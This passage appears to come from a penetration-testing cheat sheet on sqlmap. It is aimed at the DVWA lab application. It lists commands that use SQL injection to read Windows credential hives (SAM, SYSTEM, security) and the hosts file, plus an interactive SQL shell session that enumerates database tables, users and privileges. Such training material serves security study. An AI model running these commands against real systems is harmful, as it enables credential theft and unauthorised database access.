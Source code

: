 #### 2.1.4 - Windows

TODO: Provide examples for windows OS enumeration using `--file-read`

##### 2.1.4.1 - Basic Information

- DNS resolve and nameserver IPs

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/drivers/etc/hosts"
```

##### 2.1.4.2 - Credentials

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/Repair/SAM"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/Repair/SYSTEM"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/config/security"
           
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/config/system"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/config/sam"
```

### 2.2 - Database Enumeration

#### 2.2.1 - Manual Enumeration

- Interactive `--sql-shell` prompt to perform SQL statement queries manually.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --sql-shell

sql-shell> SELECT @@VERSION()

sql-shell> SELECT table_name FROM information_schema.tables

sql-shell> SELECT column_name FROM information_schema.columns

sql-shell> SELECT USER()

sql-shell> SELECT DATABASE()

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```
